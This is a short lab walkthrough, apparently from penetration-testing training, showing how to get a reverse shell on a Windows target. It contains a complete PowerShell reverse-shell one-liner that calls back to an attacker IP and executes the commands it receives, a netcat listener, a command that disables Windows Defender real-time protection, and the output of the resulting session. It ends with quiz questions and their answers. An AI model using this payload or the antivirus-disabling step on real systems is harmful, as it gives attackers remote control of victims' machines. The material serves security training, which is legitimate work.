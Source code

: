 # Reverse Shells
With this walkthrough, we will be establishing a simple reverse shell using some PowerShell code on a Windows target. 

**Server (attack box)**
```
$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Client (target)**
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<server_ip>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
The Windows Defender antivirus (AV) software stopped the execution of the code. For our purposes, we will want to disable the antivirus through the Virus & threat protection settings or by using this command in an administrative PowerShell console (right-click, run as admin):
```
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```
**Server (attack box)**
```
$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

## Questions
1. When establishing a reverse shell session with a target, will the target act as a client or server? **Answer: client**
2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box. **Answer: Shells-Win10**